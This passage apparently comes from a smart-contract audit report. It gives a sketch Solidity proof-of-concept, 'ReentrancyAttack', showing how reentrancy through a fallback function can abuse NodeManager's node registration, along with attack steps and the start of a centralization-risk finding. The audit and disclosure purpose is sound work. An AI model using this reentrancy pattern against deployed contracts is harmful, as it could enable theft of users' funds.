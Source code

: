 ```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.23;

import "./NodeManager.sol";

contract ReentrancyAttack {
    NodeManager public target;
    bytes32 public attackNodeId;

    constructor(address _target) {
        target = NodeManager(_target);
    }

    function initiateAttack(NodeDefinition.Data calldata nodeDefinition) external {
        target.registerNode(nodeDefinition.nodeType, nodeDefinition.parameters, nodeDefinition.parents);
    }

    fallback() external payable {
        if (shouldReenter()) {
            NodeDefinition.Data memory nodeDefinition;
            // Construct appropriate nodeDefinition
            initiateAttack(nodeDefinition);
        }
    }

    function shouldReenter() private view returns (bool) {
        // Arbitrary condition to prevent indefinite looping
        return attackNodeId == 0;
    }
}
```

### Explanation

- Deploy: Attacker deploys ReentrancyAttack with the NodeManager contract address.
- Call initiateAttack: Attacker calls initiateAttack with a crafted nodeDefinition.
- Reentrancy Trigger: During the validation check in isValid for the external node, the fallback function is triggered.
- Execution: The fallback reenters the \_registerNode function, perpetuating the reentrant loop.

# Medium

## M-1 Centralization Risk for trusted owners

## Brief/Intro

The identified issue pertains to a centralization risk associated with trusted contract owners who possess privileged rights to execute administrative tasks. These owners can potentially perform malicious updates or even drain funds, posing a significant threat if exploited in a production environment. The consequence of such exploitation could lead to loss of funds, compromised contract integrity, and erosion of trust among users.
